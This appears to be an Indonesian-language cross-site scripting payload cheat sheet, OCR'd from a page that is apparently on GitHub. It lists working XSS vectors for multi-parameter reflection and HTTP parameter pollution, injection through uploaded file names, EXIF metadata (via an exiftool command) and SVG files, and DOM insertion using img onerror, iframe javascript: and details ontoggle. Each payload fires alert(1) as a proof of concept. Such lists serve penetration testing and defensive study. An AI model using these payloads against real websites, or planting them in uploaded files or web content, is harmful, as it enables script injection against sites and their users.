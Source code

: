 > Multi Input Reflections (Double & Triple) in HTML Context

Gunakan untuk mengambil keuntungan dari beberapa input refleksi pada halaman yang sama. Juga berguna dalam HPP (HTTP

Parameter Pollution) skenario, di mana ada refleksi untuk parameter berulang. Ketiga

payload menggunakan refleksi yang dipisahkan koma dari parameter yang sama.

     p=<svg/1='&q='onload=alert(1)>
    
     p=<svg 1='&q='onload='/*&r=*/alert(1)'>
    
     q=<script/&q=/src=data:&q=alert(1)>

> File Upload Injection – Filename

Gunakan saat nama file yang diunggah reflected di suatu tempat di halaman target.

    "><svg onload=alert(1)>.gif

> File Upload Injection – Metadata

Gunakan ketika metadata file yang diunggah reflected di suatu tempat di halaman target. Itu menggunakan

command-line exiftool ("$" adalah terminal prompt) dan setiap bidang metadata dapat disetel.

    $ exiftool -Artist='"><svg onload=alert(1)>' xss.jpeg

> File Upload Injection – SVG File

Gunakan untuk membuat XSS tersimpan sesuai target saat mengunggah file gambar. Simpan konten di bawah ini sebagai

"Xss.svg".

     <svg xmlns="[http://www.w3.org/2000/svg](http://www.w3.org/2000/svg "http://www.w3.org/2000/svg")" onload="alert(1)"/>

> DOM Insert Injection

Gunakan untuk menguji XSS ketika injeksi dimasukkan ke DOM sebagai markup yang valid alih-alih menjadi

reflected dalam kode sumber. Ini berfungsi untuk kasus di mana tag skrip dan vektor lainnya tidak akan berfungsi.

    <img src=1 onerror=alert(1)>
    
    <iframe src=javascript:alert(1)>
    
    <details open ontoggle=alert(1)>
    
    <svg><svg onload=alert(1)>

> DOM Insert Injection – Resource Request

Gunakan ketika kode javascript halaman memasukkan ke dalam halaman hasil permintaan ke URL

dikontrol oleh penyerang (injeksi).

     data:text/html,<img src=1 onerror=alert(1)>
    
